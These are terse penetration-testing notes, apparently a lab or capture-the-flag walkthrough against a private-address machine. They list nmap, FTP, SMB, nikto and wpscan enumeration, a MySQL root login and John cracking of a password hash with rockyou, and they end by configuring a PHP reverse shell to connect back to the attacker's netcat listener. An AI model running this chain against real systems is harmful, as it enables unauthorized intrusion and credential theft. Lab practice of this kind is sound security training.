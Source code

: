 <h2>steps</h2>

iwconfig

netdiscover


nmap -sT -sV -A -O -v -p 1-65535 192.168.0.29

 -A: Enable OS detection, version detection, script scanning, and traceroute

 -v: Increase verbosity

-sV (Version detection)
           Enables version detection, as discussed above. Alternatively, you can use -A, which enables version detection among other things.


-sT (TCP connect scan)
           TCP connect scan is the default TCP scan type when SYN scan is not an option. This is the case when a user does not have raw packet privileges. Instead
           of writing raw packets as most other scan types do, Nmap asks the underlying operating system to establish a connection with the target machine and port
           by issuing the connect system call



ftp 192.168.0.29

>anonymous
>

ls
get note

ssh root@192.168.0.29

smbclient -L 192.168.0.29

copy and enumerate files

nikto -h 192.168.0.103:1135

wpscan --url https://192.168.0.29:12380/blogblog 
--enumerate u --disable-tls-checks

wpscan --url https://192.168.0.29:12380/blogblog 
--enumerate ap --disable-tls-checks

mysql -u root -p -h 192.168.0.103


cat hash.txt
John:$P$fksalfalfsallksfaqpfq.

john --wordlist=/usr/share/wordlists/rockyou.txt
hash.txt


change the ip address of php-reverse-shell.php
to your kali machine
and change port to your choice you might need 
to netcat at that port
`nc -v -n -l -p 4444`

